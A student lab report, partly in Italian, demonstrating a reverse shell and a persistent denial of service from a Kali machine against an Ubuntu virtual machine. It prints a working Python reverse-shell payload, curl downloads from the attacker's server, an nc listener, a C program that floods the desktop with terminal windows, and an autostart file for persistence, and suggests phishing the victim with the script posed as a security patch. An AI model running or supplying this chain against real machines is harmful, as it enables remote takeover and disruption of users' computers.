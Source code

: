 ## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

## Kali Preparation
First of all, all the necessary files were created on Kali.
First, the `reverseshell.sh` file, where the is the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.
Then, a very simple C program, `dos.c`, was created, containing an infinite while loop that continues to open terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.
Finally, the `dos.desktop` file was created:
```sh
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.
Once the files were created, a web file server was also created on port 80, using the command.
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the default port, to do this it was used the command: `nc -lvp 4444 -n`

# Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali, at this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges, finally the file is executed with `./reverseshell.sh`.
At this point, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/reverseshell.png)

# DoS e persistence

Utilizzando la reverse shell, ora, è facile scaricare il programma `dos.c` e il file `dos.desktop` dal web file server di Kali utilizzando sempre il comando `curl`:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
ora, il programma dos.c viene compilato utilizzando il comando `ggc -o dos dos.c`, viene creato, così, l'eseguibile. Prima di eseguirlo, però, bisogna creare persistenza: il file `dos.desktop` viene spostato in `.config/autostart`, per fare ciò viene utilizzato il comando `mv`, che deve, però, essere eseguito con privilegi di amministratore, quindi utilizzando `sudo`, questo implica che l'attaccante debba conoscere la password dell'account. Una volta che `dos.desktop` viene spostato, il programma `dos` è visibile in Startup Application Preferences, che mostra i programmi che vengono eseguiti allo startup della macchina. 

![Startup Application Preferences](images/startupapplications.png)

quindi, ogni volta che avverrà l'accesso alla macchina, verranno aperte in loop innumerevoli finestre di terminale, rendendolo inutilizzabile. 

![DoS](images/dos.png)

Inoltre, un'altra feature interessante è che, provando a rimuovere `dos` utilizzando l'applicazione Startup Application Preferences e riavvinado la macchina, il programma viene eseguito comunque, questo perchè non viene rimosso il file `dos.desktop` presente in `.config/autostart`, il quale continua rimettere il programma tra le applicazioni da eseguire all'avvio. 
Per fermare questo attacco si potrebbe pensare di cancellare l'eseguibile `dos`, ma nel caso in cui questo venga a sua volta posto in una cartella non facilmente raggiungibile, questo non si potrebbe fare, soprattutto se non si sa cosa sta succedendo e se la macchina comincia a crashare. 
In alternativa si potrebbe pensare si cancellare il file dos.desktop, ma essendo collocato in una directory nascosta di default ed essendo il terminale non utilizzabile, questo potrebbe risultare difficile.

